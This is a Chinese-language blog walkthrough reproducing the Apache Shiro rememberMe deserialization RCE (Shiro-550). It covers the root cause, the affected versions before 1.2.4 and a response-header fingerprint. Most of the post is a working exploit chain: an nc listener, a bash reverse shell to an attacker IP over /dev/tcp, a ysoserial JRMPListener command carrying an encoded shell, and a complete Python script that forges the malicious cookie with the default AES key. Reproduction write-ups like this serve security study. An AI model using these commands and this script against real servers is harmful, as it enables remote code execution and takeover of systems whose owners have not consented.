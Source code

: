 # Shiro rememberMe反序列化漏洞(Shiro-550)复现


### 漏洞原理

Apache Shiro框架提供了记住密码的功能（RememberMe），用户登录成功后会生成经过加密并编码的cookie。在服务端对rememberMe的cookie值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。
**Payload产生的过程：**
命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
在整个漏洞利用过程中，比较重要的是AES加密的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了,Payload构造起来也是十分的简单。

### 影响版本

Apache Shiro < 1.2.4



### 特征判断

返回包中包含`rememberMe=deleteMe`字段



### 演示

> 文中的配图有点不一致，别介意，环境问题



#### 系统界面如图

<img src="http://image.xpshuai.cn/shiro1.jpg"></img>



#### 抓包查看

可以看到是Shiro

<img src="http://image.xpshuai.cn/shiro2.jpg"></img>

#### 1.检查是否存在默认的key

工具链接：https://github.com/insightglacier/Shiro_exploit

```bash
python shiro_exploit.py -u http://<IP>:7080
```

检测的key保存下来一会用



#### 2.制作反弹shell代码

2.1 vps监听端口

```bash
nc -lvvp 7788
```

<img src="http://image.xpshuai.cn/shiro3.jpg"></img>

2.2 Java Runtime 配合 bash 编码，
在线编码地址：http://www.jackson-t.ca/runtime-exec-payloads.html

```bash
bash -i >& /dev/tcp/202.xx.xx.xx/7788 0>&1	# ip为攻击机的地址
```

<img src="http://image.xpshuai.cn/shiro4.jpg"></img>

#### 3.通过ysoserial中JRMP监听模块，监听6666端口并执行反弹shell命令

上一步的反弹shell的命令编码结果写到下面

```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections6 'bash -c {echo,YmFzaCAtxxxxxxzYuxxxxxxxxxxxxQ==}|{base64,-d}|{bash,-i}'	# 这里用的CommonsCollections4
```

<img src="http://image.xpshuai.cn/shiro5.jpg"></img>

#### 4.使用shiro.py 生成Payload

```bash
python shiro.py 122.xx.xx.xx:6666
```

<img src="http://image.xpshuai.cn/shiro6.jpg"></img>

其中shiro.py代码如下：

```bash
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections6', command], stdout=subprocess.PIPE)	# 这里要注意用哪个JRMPClient
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("fCq+/xW488hMTCD+cmJ3aQ==")	# 这里的key要提前枚举出来
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print "rememberMe={0}".format(payload.decode())


```



#### 5.构造数据包，伪造cookie，发送Payload.

<img src="http://image.xpshuai.cn/shiro7.jpg"></img>

#### 6.nc监听端口，shell成功反弹

<img src="http://image.xpshuai.cn/shiro8.jpg"></img>

------



PS：[后来发现这个好用的工具](https://github.com/feihong-cs/ShiroExploit)，一键检测&getshell，好用极了



> 我应该去学学java编程了，看大佬们写的各种工具，羡慕极了

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/shiro-rememberme%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-shiro-550-%E5%A4%8D%E7%8E%B0/  

